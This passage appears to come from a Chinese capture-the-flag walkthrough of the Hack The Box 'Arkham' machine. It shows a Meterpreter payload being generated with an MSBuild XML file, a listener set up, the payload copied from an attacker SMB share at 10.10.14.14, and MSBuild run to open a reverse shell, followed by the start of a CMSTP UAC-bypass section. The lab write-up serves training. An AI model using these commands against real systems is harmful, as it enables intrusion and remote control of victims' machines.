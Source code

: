 ![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aeJQAWHeib3mbW0ZHMmRSCUy7XnAictXGm9Sia3uEiaqybgLJQ5iamKBYYpxQ/640?wx_fmt=png)使用`msbuild/meterpreter/rev_tcp.py`设置 tcp 监听

```
use msbuild/meterpreter/rev_tcp.py<br style="box-sizing: border-box;">
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aeEpefiaYUciclu9q5Hnd3ChGvgp0dib5y8336ibrJmIhdWwbu342cIDXrUw/640?wx_fmt=png)截屏 2021-12-20 上午 5.15.13

设置本地 IP 和端口

```
set LHOST 10.10.14.14set LPORT 4444
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aez4WUbngobWwHMriah5bAe6ibtLhIeU5gQibt6cw0ib8SMDZ4aLxucaF1Bg/640?wx_fmt=png)截屏 2021-12-20 上午 5.16.17

```
generate##输入arkham
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aerCrkmftUrBc0ib7ILqSVctYoUVRVG4DBvsZo5Ts523G8LQduicib71tKQ/640?wx_fmt=png)成功生成 arkham.xml 、arkham.rc，这两个文件有不同的作用。arkham.xml 用于在 windows 中反弹 meterpreter，arkham.rc 用于在 msf 中直接配置监听![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99ae0NchwRunvleCp2HsUt5NKwjkIkkfjibGxuxZ1IRialLljN8JPOpteGZw/640?wx_fmt=png)

使用 msfconsole 加载 rc 文件并设置参数

```
msfconsole -r arkham.rc<br style="box-sizing: border-box;">
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99ae4IFHAdYndKaStAOuWibs5YP7xCk0KDr9DWicaOy5Ocn1pZFtXPCQiaEgA/640?wx_fmt=png)截屏 2021-12-20 上午 5.21.19

与此同时将 xml 文件移动到目标靶机上

```
cd \Users\Batman\appdata\local\temp\net use \\10.10.14.14\share /u:mac maccopy \\10.10.14.14\share\arkham.xml C:\Users\Batman\appdata\local\temp\
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aezic7KjFobEGWuiak9fBh7k4pRk054OicibsQQLtAicvzeaWakmkV4K0fd1w/640?wx_fmt=png)截屏 2021-12-20 上午 5.24.19

运行 msbuild 获取 meterpreter 会话

```
\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe \Users\Batman\appdata\local\temp\arkham.xml
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aeFqfrk80b6qNAMZxibjOAD0xh2ygBs1XiaXwoV6M9HPz6dX29mj8wNNwQ/640?wx_fmt=png)在 msf 中成功返回会话![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aeNIoVicQ7XGDhD8Qice8soOHGLib7L2Q1VsvBtPKJUkICLbVJcic2NJoEXw/640?wx_fmt=png)

#### CMSTP UAC 绕过

_**参考文章：https://0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html**_

```
```